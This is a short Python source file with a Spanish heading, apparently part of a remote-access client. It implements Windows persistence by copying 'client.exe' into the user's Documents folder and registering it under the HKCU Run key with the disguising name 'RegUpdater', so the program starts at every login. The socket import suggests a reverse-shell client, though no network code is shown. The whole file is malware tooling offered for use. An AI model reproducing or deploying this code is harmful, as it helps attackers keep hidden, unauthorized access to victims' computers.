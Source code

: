 #Hacer que un programa en python tenga persistencia en Windows

import socket
import os
import subprocess
import time
import shutil
import random
import winreg as wreg

def persistance():
	path = os.getcwd().strip('/n')
	Null, userprof = subprocess.check_output('set USERPROFILE', shell=True,stdin=subprocess.PIPE,  stderr=subprocess.PIPE).decode().split('=')
	
	destination = userprof.strip('\n\r') + '\\Documents\\' + 'client.exe'
	
	if not os.path.exists(destination):
		shutil.copyfile(path+'\client.exe', destination)
		key = wreg.OpenKey(wreg.HKEY_CURRENT_USER, "Software\Microsoft\Windows\CurrentVersion\Run", 0, wreg.KEY_ALL_ACCESS)
		wreg.SetValueEx(key, 'RegUpdater', 0, wreg.REG_SZ, destination)
		key.Close()